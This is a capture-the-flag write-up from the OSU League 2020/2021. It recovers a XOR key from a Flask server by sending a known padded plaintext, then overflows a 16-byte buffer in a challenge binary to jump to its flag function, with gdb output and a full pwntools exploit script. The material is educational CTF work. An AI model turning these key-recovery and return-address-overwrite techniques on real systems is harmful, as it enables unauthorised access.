 ```yaml
---
title: "OSU League 2020/2021 - many_time_pad Writeup"
date: 2020-12-05
draft: false
description: ""
tags: ["ctf"]
---
```

For this challenge, we are giving a link to a web page.  Going to it, we are greeted with this:  
{{< figure src="/img/1-many.png" >}}


They also give us the source code for the web server:

```python
from app import app
from app import cfg
from flask import render_template,request,redirect,make_response,send_file

#serve index.html
@app.route("/")
def index():
    return render_template("index.html")

#encrypt messages that are POSTed to /encrypt
@app.route("/encrypt", methods=["POST"])
def encrypt():
    #truncate message if longer than 256 bytes, convert to byte string
    plaintext = request.form.get("message")[:256].encode()
    #pad message with \xff bytes
    plaintext += b'\xff' * (256 - len(plaintext))
    #xor byte string with secret key
    ciphertext = bytes([plaintext_byte ^ key_byte for plaintext_byte, key_byte in zip(plaintext, cfg.secret_byte_string)])
    #put the ciphertext in a response header
    resp = make_response(render_template("index.html"))
    resp.headers["ciphertext"] = repr(ciphertext)
    return resp

#send server source code to those who request it
@app.route("/source")
def source():
    return send_file("./views.py")

#secret admin page, the URL is the secret key so it is secure
@app.route("/" + cfg.secret_byte_string.decode())
def win():
    return(render_template("win.html"))
```

Looking though the source code, it looks like our goal is to find `secret_byte_string`, as that will tell us the path to the admin site.  We also see how the ciphertext is generated.  It's an XOR between each byte of the plaintext we provide with the secret key.  So with the properties of XOR, if we know the plaintext and the ciphertext that would be generated, we can find the secret key!

We see here that our plaintext gets padded with `\xff` to get to 256 bytes, so if we just don't input anything into the field box, then we know our plaintext is `\xff\xff\xff ... ` 256 times. So let's try that, and look at the response header we get from sending it.

{{< figure src="/img/2-many.png" >}}

Alright, looks like we have the ciphertext, now to just XOR it with our plaintext. Xoring and coverting to ascii we get out path:  
`if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678`

We are then given a site with shows us how to set up our enviroment to do a pwn challenge along with a baby pwn to solve.  We are even given some skeleton code that we can use for the exploit.

Downloading the binary and disassembling it through gdb, we can immediatly see a vulnerability.  At `main+53`, we have a call to fgets, which would allow us to perform a buffer overflow attack.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x000000000040071b <+0>:     push   rbp
   0x000000000040071c <+1>:     mov    rbp,rsp
   0x000000000040071f <+4>:     sub    rsp,0x10
   0x0000000000400723 <+8>:     mov    eax,0x0
   0x0000000000400728 <+13>:    call   0x400692 <check_the_key>
   0x000000000040072d <+18>:    test   eax,eax
   0x000000000040072f <+20>:    jne    0x40075c <main+65>
   0x0000000000400731 <+22>:    lea    rdi,[rip+0x108]        # 0x400840
   0x0000000000400738 <+29>:    call   0x400520 <puts@plt>
   0x000000000040073d <+34>:    mov    rdx,QWORD PTR [rip+0x20090c]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x0000000000400744 <+41>:    lea    rax,[rbp-0x10]
   0x0000000000400748 <+45>:    mov    esi,0x20
   0x000000000040074d <+50>:    mov    rdi,rax
   0x0000000000400750 <+53>:    call   0x400540 <fgets@plt>
   0x0000000000400755 <+58>:    mov    eax,0x0
   0x000000000040075a <+63>:    jmp    0x40075e <main+67>
   0x000000000040075c <+65>:    nop
   0x000000000040075d <+66>:    nop
   0x000000000040075e <+67>:    leave
   0x000000000040075f <+68>:    ret
End of assembler dump.
```

We can also open up the binary in Ghidra and see that the buffer we need to fill is 16 bytes long. Perfect, what can we do with this though?  Looking at the functions, we see something promising:

```
gdb-peda$ info functions

0x0000000000400647  print_the_flag
```

We also need to pass in our key we got from the web challenge portion to get to this point, so we need to remember to account for that.
So our current plan of attack sounds like:
1. Pass in our key
2. Fill the buffer up with 16 byte
3. Overwrite EBP with 8 bytes
4. Overwrite EIP with the address of `print_the_flag`
5. Win

In python, that looks like:

```python
from pwn import *
buffer_size = 16
addr_of_printflag_function = 0x0000000000400647
secret_key_string = "if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678"

p = remote("ctf-league.osusec.org", 31309)

print(p.recv())

print("sending the key string: " + secret_key_string)
p.send(secret_key_string)
print("response: " + p.recv().decode())

payload = b'A' * buffer_size

payload += b'B' * 8

payload += p64(addr_of_printflag_function)
print(b"payload: " + payload)
p.send(payload)
```

And running it we get the flag!!!

```
cameron@LAPTOP-PEKGUHAN:/mnt/c/Users/Cameron McCawley/Desktop/mtp$ python2 exploit.py
[+] Opening connection to ctf-league.osusec.org on port 31309: Done
enter the secret key from the web portion of this challenge
sending the key string: if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678
response:

payload: AAAAAAAAAAAAAAAABBBBBBBBG\x06\x00\x00\x00
[*] Switching to interactive mode
overflow my buffer and return to the print_the_flag function
osu{L0N6_W01f_H^x0r}
```
